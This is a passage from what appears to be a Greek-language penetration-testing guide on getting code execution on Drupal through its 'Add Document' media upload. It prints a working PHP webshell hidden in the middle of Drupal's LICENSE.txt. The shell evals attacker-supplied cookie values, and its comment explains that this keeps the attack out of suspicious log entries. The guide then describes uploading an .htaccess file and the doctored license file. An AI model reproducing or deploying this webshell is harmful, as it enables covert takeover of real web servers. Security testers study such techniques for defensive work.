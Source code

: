Απλά επειδή αν πάρουμε το παρακάτω αρχείο, για παράδειγμα [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (το οποίο είναι ήδη παρόν στον πυρήνα του Drupal), έχουμε ένα αρχείο 339 γραμμών και 17.6 KB σε μέγεθος, το οποίο είναι τέλειο για να προσθέσουμε ένα μικρό απόσπασμα κώδικα PHP στη μέση (καθώς το αρχείο είναι αρκετά μεγάλο).

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αρχείο: Διορθωμένο LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```
#### **Μέρος 3.1 (ανέβασμα αρχείου .htaccess)**

Αρχικά, εκμεταλλευόμαστε τη δυνατότητα _Προσθήκη Εγγράφου_ (/media/add/document) για να ανεβάσουμε το αρχείο μας που περιέχει τις οδηγίες Apache (.htaccess).

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Μέρος 3.2 (ανέβασμα αρχείου LICENSE.txt)**

Στη συνέχεια, εκμεταλλευόμαστε ξανά τη δυνατότητα _Προσθήκη Εγγράφου_ (/media/add/document) για να ανεβάσουμε ένα Webshell κρυμμένο μέσα σε ένα αρχείο άδειας.

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
